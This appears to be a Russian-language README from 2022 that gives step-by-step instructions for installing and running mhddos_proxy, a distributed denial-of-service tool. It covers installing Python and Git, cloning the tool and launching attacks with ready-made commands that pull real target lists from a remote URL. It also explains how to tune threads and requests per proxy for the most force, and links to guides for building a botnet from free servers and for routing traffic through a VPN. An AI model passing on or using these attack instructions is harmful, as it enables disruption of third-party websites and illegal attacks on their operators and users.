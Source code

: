 <h1 align="center">Установка mhddos_p напрямую на ваш комп</h1> 
March 28, 2022

<br/>
<br/>

ТЕСТОВИЛ ТОЛЬКО НА WINDOWS 10

🟢Пошаговые инструкции по установке mhddos_proxy на любую ОС 🟢
Windows / Linux / Mac / Android:  [ссылка](https://github.com/BionecX/mhddos_p/blob/main/docs/installation.md)

то есть Docker, который, по сути, является целой виртуальной машиной и жрет много ресурсов, не нужен вообще - 🔺 замена на python скрипт поможет снизить нагрузку на ваш процессор в 2-3 раза 

❗️Помощь(бесплатно) в поиске прокси для mhddos_p , НОВЫЙ МЕТОД ДЛЯ ВСЕХ ОС: https://github.com/BionecX/proxy_finder


❗️Авто-скрипт, который сам устанавливает все нужные файлы и запускает mhddos_proxy и proxy_finder в одном скрипте, и автоматически обновляет их: https://github.com/alexnest-ru/runner_for_windows


Анализ средства mhddos_p (что он выводит, и все его преимущества):
[ссылка](https://github.com/BionecX/mhddos_p_docs/blob/main/docs/README_analiz_sredstva_mhddos_h.md)


❗️Создание ботнета из 30+ бесплатных и автономных (работают даже при выключенном ПК) Linux-серверов: [ссылка](https://auto-ddos.notion.site/dd91326ed30140208383ffedd0f13e5ccc)



Прежде всего, нужно установить Python3 (чтобы запускать сам скрипт) и Git (чтобы скачать все зависимости (requirements))

!!!ВСЕ ПУНКТЫ ОБЯЗАТЕЛЬНЫЕ!!!


Весь код программы открыт здесь:
https://github.com/BionecX/mhddos_p


1.Установка Python3:

Способ 1 (очень простой):

Заходим в cmd (командная строка)
Командная строка

-> Прописываем python3

 -> нажимаем Enter
Если у вас до сих пор нет python3, то Вас перекинет в Microsoft store, там нажимаете Получить/Получить/Get

Если он у вас уже есть, то будет вот так:

После получения python3 закрывает это окно терминала (команды срока)

Если через cmd (командую строку) не получилось, или у вас Python ниже 3.10 (проверить можно так python --version) – попробуйте зайти самостоятельно в Microsoft Store и найти и установить там Python3.10


!!!ТОЛЬКО ЕСЛИ С ПРЕДВАРИТЕЛЬНЫМ СПОСОБОМ НЕ ПОЛУЧИЛОСЬ:!!!
Способ 2: скачиваем python: https://www.python.org
Кликаете именно в таком порядке

Запускаете скачанный файл
Именно в таком порядке 1-ый самый важный

Дальше все по умолчанию везде кликаете Далее / Да
2. Установка Git


Для начала нужно еще установить Notepad++ (удобный редактор кода, он сгодится и после нашей победы в войне):

https://notepad-plus-plus.org/downloads/v8.2.1/ 

Когда скачали, запустили установщик и установили Notepad++ переходим к следующим пунктам


Скачиваем установщик git`a https://gitforwindows.org (эта самая ссылка на оф. сайте github`a: https://github.com/git-guides/install-git#install-git-on-windows)


Ждем пока скачается, затем запускаем скачанный файл


УСТАНОВИВАТЬ НАДО САМЕ ТАК:
Из списка выбрать именно Notepad++ (который вы должны скачать раньше, если нет, то закрывайте и скачивайте, затем открывайте Setup файл еще раз)
Готово
3. Устанавливаем сам скрипт mhddos_p

Открываем Мой компьютер

Ищем папку рабочего стола:

Заходим в папку Рабочего стола:

Но в выделенной области прописываем три буквы cmd:

И нажимаем Enter – откроется окно Терминала:

Далее прописываем следующую команду:

    git clone https://BionecX/mhddos_p

и нажимаем Enter

    ddos_proxy' already exists and is not empty directory. - это значит, что нужная папка уже существует - просто следуйте инструкциям в пункт 4. Запуск атаки

Произошла загрузка нужной программы
Тем нужно зайти в папку с этой программой.

    cd mhddos_p

и сразу скачиваем необходимые зависимости:

    python -m pip install -r requirements.txt

Финально должно получиться вот так:

Теперь мы можем запускать атаки:
4. Запуск атаки

После всех предыдущих пунктов в дальнейшем вам нужно будет ВЫПОЛНЯТЬ ТОЛЬКО ЭТОТ ПУНКТ:


Находим папку из mhddos_proxy на Рабочем столе:

Открываем ее и чтобы зайти в Терминал из этой папки, в поле прописываем cmd и нажимаем Enter:


В открывшемся терминале водим следующие команды:

    cd mhddos_p
    git pull origin main

Если у вас все установлена ​​последняя версия будет вот такое сообщение:

Если нет, то установит последнюю версию:

Теперь нужно установить еще раз зависимости (а вдруг они тоже обновились):

    python -m pip install -r requirements.txt


❗️Нужно установить супер-быстрый и стабильный VPN, чтобы ваш провайдер не резал трафик из-за подключения ко многим IP(прокси):
[ссылка](https://auto-ddos.notion.site/VPN-effde85923534cf7b4caa198a0ef0d23ccc)

Если вы будете без ВПН, то у вас вообще может попасть интернет на роутере, как было у меня, потому что провайдеры не любят когда из их IP идет трафик на большое количество других IP(прокси)

Другие ВПН тоже могут не подойти, потому что они могут отключаться

Наконец-то мы можем запускать атаку:

Для атаки вводим следующую команду, НАПРИМЕР:

    python runner.py -c https://raw.githubusercontent.com/alexnest-ru/targets/main/special/archive/shop/shop_lll7_url -t 5000 --rpc 3000 --http-methods GET STRESS --debug

Поздравляю, атака запустилась:
нули это нормально, особенно в начале атаки, пока скрипт "разгоняется"


Чтобы остановить атату: в открывшемся окне с атакой нажимаете Ctrl+C (или можно просто нажать на крестик и закрыть окно)


❗️Чтобы добавить ваш текущий IP (или IP подключенного VPN) к атаке вместе с прокси в конец команды приписывайте --vpn. (более подробно об этом: Для увеличения мощности атаки за счет вашего IP - добавьте в конец команды флажок --vpn, чтобы добавить ваш IP к атаке вместе с прокси (желательно использовать стабильный и быстрый VPN (https://auto-ddos.notion.site/VPN-effde85923534cf7b4caa198a0efffccc) ) (кроме Linux-серверов (https://auto-ddos.notion.site/dd91326ed30140208383ffedd0f13e5cccfff) – там менять ничего не надо))) 

Например: 

    python runner.py -c https://raw.githubusercontent.com/alexnest-ru/targets/main/special/archive/shop/shop_lll7_url -t 5000 --rpc 3000 --http-methods GET STRESS --debug --vpn


5. Шаблон команды для собственных атак:


    python runner.py -c https://raw.githubusercontent.com/alexnest-ru/targets/main/special/archive/shop/shop_lll7_url -t 5000 --rpc 3000 --http-methods GET STRESS --debug

python runner.py <Цели-сайты> --http-methods <Методы> -t <Потоки> --rpc <Подключение> --debug

    python3 - оболочка/приложение, которая будет читать и выполнять код программ runner.py
    runner.py – сам скрипт атаки
    Цели-сайты - Цели при проведении атаки на одном уровне и с использованием одного метода атаки, указанного в --http-methods, можно перечислять через пробел, а можно указать как удаленный конфиг через -c URL (где каждая цель должна быть из новой строки ). В этом случае количество целей будет разделено на каждый метод равномерно от того количества, которое вы указали.
    Можно указывать в одной команде любые типы портов, например: http://, https://, tcp://, udp:// – все они будут разбиты на нужные методы, для http и https будут браться методы из перечня --http-methods , а для tcp и udp всегда используются методы TCP и UDP соответственно
    Методы - Со всеми методами можно ознакомиться на самом гитхабе
    ( https://github.com/MHProDev/MHDDoS#features-and-methods ). Все команды, которые мы готовим в нашем канале – мы готовим уже с необходимыми для атаки методами. На одном уровне атаки методы можно перечислять через пропуск. Самые распространенные методы:
    --http-methods GET STRESS
    Потоки – это количество "вредных" пакетов/запросов в количестве t* количество_ядер, отправляемых на цель. Здесь можно выкручивать по максимуму на столько, на сколько тянет ваш ПК (мониторите нагрузку в диспетчере задач, смотрим на ЦПУ и ОЗУ, в Kali Linux это зеленый и синий график соответственно). Будьте внимательны, в начале атаки нагрузка может быть минимальной, а спустя некоторое время зашкаливать. Учитывайте, что при увеличении пакетов/угрозов количество прокси-серверов может снизиться. По умолчанию 1000, по желанию – сколько влезет в вашу машину (но желательно не больше 10000). В этой команде: -t 5000
   Подключение – здесь указываем предполагаемое количество подключений одного прокси-сервера. Оптимально указывать от 1000 до 2000. Предположим, что у вас 1000 прокси-серверов, при указании подключений в количестве 1000, вы отправите 1 000 000 пакетов на вашу цель (в идеале, но определенный процент пакетов скорее всего может потеряться). Теперь оптимальное значение:
    --rpc 2000
    Также если вы подключены к VPN России можно добавить параметр --vpn , с помощью которого атака будет происходить через прокси и вместе с вашим IP (желательно, чтобы это был IP VPN)
    Например:
    python3 runner.py -c https://raw.githubusercontent.com/alexnest-ru/targets/main/special/archive/shop/shop_lll7_url -t 5000 --rpc 3000 --http-methods GET STRESS --debug --vpn



